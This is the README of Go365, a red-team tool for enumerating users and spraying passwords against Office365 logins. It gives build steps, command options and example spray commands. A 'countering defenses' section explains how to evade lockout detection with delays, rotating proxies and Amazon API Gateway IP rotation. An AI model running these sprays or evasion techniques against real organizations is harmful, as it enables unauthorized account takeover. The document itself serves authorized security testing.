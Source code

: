 # Go365

**This tool is still in development. Please read all of this README before using Go365!**

Go365 is a tool designed to perform user enumeration* and password guessing attacks on organizations that use Office365 (now/soon Microsoft365). Go365 uses a unique SOAP API endpoint on login.microsoftonline.com that most other tools do not use. When queried with an email address and password, the endpoint responds with an Azure AD Authentication and Authorization code. This code is then processed by Go365 and the result is printed to screen or an output file.

\* User enumeration is performed in conjunction with a password guess attempt. Thus, there is no specific flag or funtionality to perform only user enumeration. Instead, conduct your first password guessing attack, then parse the results for valid users.

##### Read these three bullets!

- This tool might not work on **all** domains that utilize o365. Tests show that it works with most federated domains. Some domains will only report valid users even if a valid password is also provided. Your results may vary!
- The domains this tool was tested on showed that it did not actually lock out accounts after multiple password failures. Your results may vary!
- This tool is intended to be used by security professionals that are authorized to "attack" the target organization's o365 instance.

## Obtaining

#### Option 1

Download a pre-compiled binary for your OS [HERE](https://github.com/optiv/Go365/releases).

#### Option 2

Download the source and compile locally.

1. Install Go.
2. Go get some packages:

```
go get github.com/beevik/etree
go get github.com/fatih/color
go get golang.org/x/net/proxy
```

3. Clone the repo.
4. Navigate to the repo and compile ya dingus.

```
go build Go365.go
```

5. Run the resulting binary and enjoy :)

## Usage

```
$ ./Go365 -h

  ██████         ██████   ██████  ██████
 ██                   ██ ██       ██
 ██  ███   ████   █████  ███████  ██████
 ██    ██ ██  ██      ██ ██    ██      ██
  ██████   ████  ██████   ██████  ██████

 Version: 0.2
 Authors: h0useh3ad, paveway3, S4R1N, EatonChips

 This tool is currently in development.

 Usage:
     ./Go365 -ul <userlist> -p <password> -d <domain> [OPTIONS]
 Options:
     -h,            Show this stuff

	 Required:
     -u string              Username to use
                              - Username with or without "@domain.com"
                              (-u legit.user)
     -ul <file>             Username list to use
															- File should contain one username per line
															- Usernames can have "@domain.com"
                              - If no domain is specified, the -d domain is used
                              (-ul ./usernamelist.txt)
     -p <string>            Password to attempt
                              - Enclose in single quotes if it contains special characters
                              (-p password123  OR  -p 'p@s$w0|2d')
     -pl <file>            Password list to use
                              - File should contain one password per line
                              - Must be used with -delay
                              (-pl ./passwordlist.txt)
     -up <file>            Userpass list to use
															- One username and password separated by a ":" per line
                              - Be careful of duplicate usernames!
                              (-up ./userpasslist.txt)
     -d <string>            Domain to test
                              (-d testdomain.com)

   Optional:
     -w <int>              Time to wait between attempts in seconds.
                              - Default: 1 second. 5 seconds recommended.
                              (-w 10)
     -delay <int>          Delay (in seconds) between sprays when using a password list.
                              - Default: 10 minutes. 60 minutes (3600 seconds) recommended.
                              (-delay 600)
     -o <string>           Output file to write to
                              - Will append if file exists, otherwise a file is created
                              (-o ./output.out)
     -proxy <string>       Single proxy server to use
                              - IP address and Port separated by a ":"
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxy 127.0.0.1:1080)
     -proxyfile <string>    A file with a list of proxy servers to use
                              - IP address and Port separated by a ":" on each line
                              - Randomly selects a proxy server to use before each request
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxyfile ./proxyfile.txt)
     -url <string>          Endpoint to send requests to
                              - Amazon API Gateway 'Invoke URL'
                              (-url https://k62g98dne3.execute-api.us-east-2.amazonaws.com/login)
     -lt <int>              Number of account lockout responses before the spray is terminated
                              - Default: 10 lockouts
                              (-lt 5)
     -v                     Validate whether the domain is using O365 via the GetUserRealm 
                              - Exits program if response is unkown
                              - prints out the ADFS Auth URL if Federated authentication
     -debug                 Debug mode.
                              - Print xml response
```

### Examples

```
./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com
./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5
./Go365 -up ./userpass_list.txt -d pwnthisfakedomain.com -w 5 -o Go365output.txt
./Go365 -u legituser@pwnthisfakedomain.com -p 'coolpasswordbro!123' -w 5 -o Go365output.txt -proxy 127.0.0.1:1080
./Go365 -u legituser -pl ./pass_list.txt -delay 1800 -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxyfile ./proxyfile.txt
./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -url https://k62g98dne3.execute-api.us-east-2.amazonaws.com/login
```

## Account Locked Out! (Domain Defenses)

**protip:** _You probably aren't **actually** locking out accounts._

After a number of queries against a target domain, results might start reporting that accounts are locked out.

Once this defense is triggered, **user enumeration becomes unreliable since requests for valid and invalid users will randomly report that their accounts have been locked out**.

```
...
[-] User not found: test.user90@pwnthisfakedomain.com
[-] User not found: test.user91@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user92@pwnthisfakedomain.com
[!] Account Locked Out: real.user1@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user93@pwnthisfakedomain.com
[!] Account Locked Out: valid.user94@pwnthisfakedomain.com
[!] Account Locked Out: jane.smith@pwnthisfakedomain.com
[-] Valid user, but invalid password: real.user95@pwnthisfakedomain.com
[-] Valid user, but invalid password: fake.user96@pwnthisfakedomain.com
[!] Account Locked Out: valid.smith@pwnthisfakedomain.com
...
```

This is a defensive mechanism triggered by the number of **valid** user queries against the target domain within a certain period of **time**. The number of attempts and the period of time will vary depending on the target domain since the thresholds can be customized by the target organization.

### Countering Defenses

#### Wait time

The defensive mechanism is **time** and **IP address** based. Go365 provides options to include a wait time between requests and proxy options to distribute the source of the requests. To circumvent the defensive mechanisms on your target domain, use a long wait time and multiple proxy servers.

A wait time of AT LEAST 15 seconds is recommended. `-w 15`

#### SOCKS5 Proxies

If you still get "account locked out" responses, start proxying your requests. Proxy options have only been tested on SSH SOCKS5 dynamic proxies (`ssh -D <port> user@proxyserver`)

Create a bunch of SOCKS5 proxies on DO or AWS or Vultr or whatever and make a file that looks like this:

```
127.0.0.1:8081
127.0.0.1:8082
127.0.0.1:8083
127.0.0.1:8084
127.0.0.1:8085
127.0.0.1:8086
...
```

The tool will randomly iterate through the provided proxy servers and wait for the specified amount of time between requests.

`-w 15 -proxyfile ./proxies.txt`

#### Amazon API Gateway

Additionally, an endpoint url may be specified so this tool can interface with Amazon API Gateway. Setup a gateway to point to the `https://login.microsoftonline.com/rst2.srf` endpoint, then set the -url parameter to the provided `Invoke URL`. Your IP should be rotated with each request.

`-url https://k62g98dne3.execute-api.us-east-2.amazonaws.com/login`
